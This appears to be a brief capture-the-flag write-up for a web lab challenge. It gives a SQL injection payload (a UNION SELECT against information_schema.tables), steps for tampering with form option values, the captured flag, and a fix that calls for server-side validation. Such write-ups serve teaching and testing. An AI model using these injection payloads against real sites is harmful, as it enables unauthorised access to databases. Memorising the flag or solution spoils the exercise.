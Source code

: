 # Where: <br>
    /?page=searchimg
# How:
    -By entering
    <br>
    -1 union _select_ null, concat (table_name) from information_schema.tables where table_schema = database ()
    <br>
    -Change the value of 1 of the options to an invalid value.
    <br>
    Or
    <br>
    -Add an invalid option.

    -Select the invalid value

    -Receive the flag

# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).